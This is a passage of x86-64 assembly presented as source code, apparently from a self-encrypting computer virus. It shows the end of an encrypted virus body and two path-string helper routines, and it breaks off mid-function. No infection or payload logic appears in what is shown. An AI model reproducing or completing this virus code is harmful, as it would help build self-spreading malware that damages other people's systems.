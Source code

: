 ```assembly
    mov rdi, r12
    syscall
.return:
    POP_ALL
    ret
virus_encrypted_end:

; Utility functions (can also be encrypted)
sub_val:
    push rax
    push rcx
    push rsi
    push rdi
    push rdx
    .loop:
        lodsb
        inc rdx
        test al, al
        je .done
        jmp .loop
    .done:
        cmp rdx, 3
        jle .finish
        std
        mov [rsi - 2], byte 0
        .second_loop:
            lodsb
            cmp al, '/'
            je .second_done
            mov [rsi + 1], byte 0
            jmp .second_loop
        .second_done:
        cld
    .finish:
    pop rdx
    pop rdi
    pop rsi
    pop rcx
    pop rax
    ret

add_val:
    push rax
    push rcx
    push rsi
    push rdi
    push rdx
    push r12

    mov r12, rax
    xor rcx, rcx
    xor rdx, rdx
    .loop:
        lodsb
        test al, al
        je .done
        inc rdx
        jmp .loop
    .done:
        dec rsi
        xchg rsi, rdi
        .second_loop:
            lodsb
```